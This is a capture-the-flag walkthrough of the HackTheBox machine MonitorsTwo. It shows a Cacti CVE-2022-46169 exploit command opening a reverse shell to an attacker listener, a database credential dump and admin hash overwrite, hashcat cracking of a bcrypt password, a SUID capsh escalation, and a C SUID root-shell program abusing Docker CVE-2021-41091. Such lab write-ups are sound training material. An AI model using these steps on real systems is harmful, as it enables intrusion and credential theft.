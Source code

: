# HTB - MonitorsTwo

## Summary

I did this box as it was released and finished it the day after it was released.  
The foothold is kind of lame, it just involves exploiting a CVE which gets us a basic shell in a docker container.  
The docker container escape is also very lame because its just a hash crack of a user's password.  
The privilege escalation is very cool, and involves using root inside the docker container to assist with privilege escalation to root outside of the docker container. 

## Foothold

`nmap` shows ports 22 and 80 open  
if we go to the ip address, we are presented with a `Cacti` login panel  
`ctrl + u` shows us that this is running cacti v1.2.22 which is vulnerable to CVE-2022-46169  

I found 3 python exploits on the internet, and none of them worked out of the box. Combining the third one I found and the first one I found, did the trick eventually and we get a reverse shell.  

About a week after the box got released, this exploit was published which works out of the box:  
https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22  

`python3 cacti_exploit.py -u http://10.10.11.211 --LHOST=10.10.14.2 --LPORT=8686`  
with a nc listner on 8686 gets us a basic shell

<br />

## Enumerating sql database

With our shell on the box, we can immediately tell that we are in a docker container becuase our hostname is that of a docker container. There is a script `/entrypoint.sh` which runs several mysql commands, with the mysql password written in plaintext. We can copy the syntax of the commands this script is running and run:  
`mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"`  
to dump all of the Cacti passwords  

<br />

## Getting Access to the Cacti Panel -- Unnecessary

This step was unnecessary to the exploitation of the box, but I spent a lot of time doing it, so I have decided to include it.  

There is a user marcus and admin listed in the `auth_user` table. Both of their passwords are of the form: `$2y$10$...` which is what is generated by php `password_hash(<password>, PASSOWRD_BCRYPT)`  
We can get the hash for 'password' with:  
`php -a`  
**php >** `echo password_hash("password", PASSWORD_BCRYPT);`  

Then we can run the following sql query to update the database to have our new password instead:  
`mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET password='\$2y\$10\$oSrh1y/chWNinlkH/FEoxOiZ4ieXC4O7PCasEAX40AW2wPmGpzG4S' WHERE username = 'admin'"`  

Now we can log in to the Cacti web portal with admin/password. This ended up being useless for exploitation of the box

<br />

## Cracking marcus' password

It turns out marcus' password hash is crackable with hashcat.  

We can identify the type of hash with `hashid password_hash`  
This tells us it is likely a `bcrypt` hash, which is good  
Then, we can run `hashcat --help | grep bcrypt` to find the module id for `bcrypt` which is 3200  

hashcat does not work well on the VM, so I ran it on my physical host with the following:  
```sh
hashcat -a 0 -m 3200 password_hash /usr/share/wordlists/rockyou.txt -w 3
```  

We find that marcus' password is funkymonkey, which we can use to ssh as him and get acess to the host

<br />

## Root on the docker Container

As marcus, there are not many obvious privilege escalation paths. Linpeas does not tell us this, but the Docker version is `20.10.5` which is vulnerable to `CVE-2021-41091`.  

Basically, if we had root on the Docker container, we could follow this article to get root on the host:  
https://www.cyberark.com/resources/threat-research-blog/how-docker-made-me-more-capable-and-the-host-less-secure  

To get root on the docker container:  
`find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`  
`/sbin/capsh` has suid bit set  
GTFO bins tells us that we can privesc to root with: `capsh --gid=0 --uid=0 --`  

<br />

## Privesc marcus to root

First, we need to find where the docker container's overlay mount is with:  
`findmnt` or `mount | grep overlay`  
In this case it was:  
`/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged`  

We can `cd` there, and then `cd` to `./tmp`  

Because we have root on the docker container, we can create the following file, compile it, and set its suid bit:

privesc.c:
```C
// gcc privesc.c -o privesc
int main()
{
  setuid(0);
  system("/bin/sh -p");
}
```

Then, as root on the docker container:  
`chmod u+s privesc`  
`chmod +x privesc`  

Then, running `./privesc` as marcus on the host gets us root  

